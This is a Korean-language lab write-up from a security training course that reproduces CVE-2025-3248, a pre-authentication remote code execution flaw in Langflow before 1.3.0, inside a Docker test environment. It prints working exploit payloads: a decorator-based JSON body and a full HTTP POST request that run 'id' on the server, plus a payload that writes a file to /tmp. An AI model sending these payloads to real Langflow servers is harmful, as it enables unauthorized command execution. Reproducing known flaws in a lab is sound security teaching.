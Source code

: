 # Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)
> 화이트햇 스쿨 3기 - 이찬휘 ([`@iChanee`](https://github.com/iChanee))

<br>

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---

<br>

## 환경 구성
### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)


### 실행 명령어

```bash
docker compose up -d
```
![](docker_up.jpg)

서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.

<br>

## 환경 실행 후 Langflow 인터페이스 확인
### Langflow 로그인 화면

![Langflow 로그인](Langflow_interface_login.jpg)


### Langflow 프로젝트 화면

![Langflow 프로젝트](Langflow_interface_main.jpg)


서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.

<br>

## 취약점 재현
### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json


### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

<br>

## Burp Suite를 이용해 위 요청을 보낸 결과: 
![](burp_poc_id.jpg)

<br>

## 추가 실습 - 컨테이너 내부에 파일 생성하여 RCE 확인

아래와 같이 파일을 생성하는 Payload를 전송하여 컨테이너 내부에 `PoC successful` 메시지가 담긴 파일을 직접 생성하고 확인했습니다.

### 공격 Payload (파일 생성)

```json
{
  "code": "@exec(\"raise Exception(__import__('builtins').open('/tmp/BHS.txt','w').write('PoC successful'))\")\ndef foo():\n  pass"
}
```

### PoC 성공 시 파일 생성 결과 확인
![PoC Payload 실행](poc_file_write.jpg)  
![PoC 파일 생성 확인](poc_file_check.jpg)